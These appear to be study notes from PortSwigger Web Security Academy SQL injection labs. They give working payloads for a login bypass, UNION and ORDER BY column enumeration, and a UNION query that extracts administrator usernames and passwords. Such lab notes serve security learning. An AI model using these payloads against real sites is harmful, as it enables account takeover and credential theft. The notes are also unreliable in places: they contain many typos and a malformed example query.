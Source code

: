 1. SQL Injection -Login Vulnerability (Lab #2 SQL injection vulnerability allowing login bypass)


Analysis:
1st Enter a ''' to see if the application breaks

then where the username is known in our case administrator
enter administrator'-- as the username the password can be anything

then the application will login after interpretting the " -- " as comment

the following SQL Query will run:
SELECT from 'firstname' FROM users WHERE username = 'administrator'-- and password ='admin'


2. SQL Injection Query to determine the number of columns returned by an attack then use that to read data from other tables

End Goal: Determine the number of columns returned by the query

SQLi Attack (Way 1)
The following command runs:
select ? from table1 UNION select NULL
-> error : if you get and errot then you have ann incorrect nnumber of columns
e.g https://ac0e1f081f98328fc0b00f2d004300ac.web-security-academy.net/filter?category=Gifts'UNION select NULL--
select ? from table1 UNION select NULL, NULL, NULL..
-> keeping adding the nulls until you get a 200 response code that shows that you have the correct number of columns
https://ac0e1f081f98328fc0b00f2d004300ac.web-security-academy.net/filter?category=Gifts'UNION select NULL,NULL,NULL--
Web Query : GET /filter?category=Gifts'+UNION+select+NULL,+NULL,+NULL--+ 
Number of columns equals : 3
Using Burp:
![Screenshot](img/sqli-burp-column-enum.png)

SQLi Attack(Way #2)
Using 'order-by'
select a,b from table1 order by 3
where three is the number of column we are ordering by f you keeping increasing that number till you get an errr it shows you have reached the maximum number of column and therefore the totoal columns available in that table

![Screenshot](img/sqli-orderby-column-enum.png)
https://ac501f031fb27988c01106bf008d00f4.web-security-academy.net/filter?category=Pets' ORDER BY 4--
The above generates an error because there's no forth column to order anything by mean we reached our maximum number of columns which is 3

3. Determin the data type of the columns
https://acd41ff61f229bd9c078074400f100af.web-security-academy.net/filter?category=Lifestyle'UNION select NULL,'r3AijW',NULL--
each null postion represents a column of a particular data type
iterate the position of the string until you get a 200 Ok
meaning the data type you have inputted in this case a string"r3Aijw' corresponds with the data type of that particular column

4. Retrieving data from other tables using an SQL UNION Injection attack
To do this you must first do steps 2 and 3 i.e determine the number of columns in the a table and determine the data type of the columns

https://ac961f081fc7cda7c06e47f20044001d.web-security-academy.net/filter?category=Gifts'UNION select username,password FROM users WHERE username='administrator'--
NB// The reason why the above query works is because:
a) The table gifts and user both contain 2 columns and hence the need for step 1 where we enumerated the number of columns we were looking for a table that contains
the same number of columns as our user table that contains the username and password columns
b) The password which is the second column of database users is of type string just like the description column in table gifts which is the second column and of type string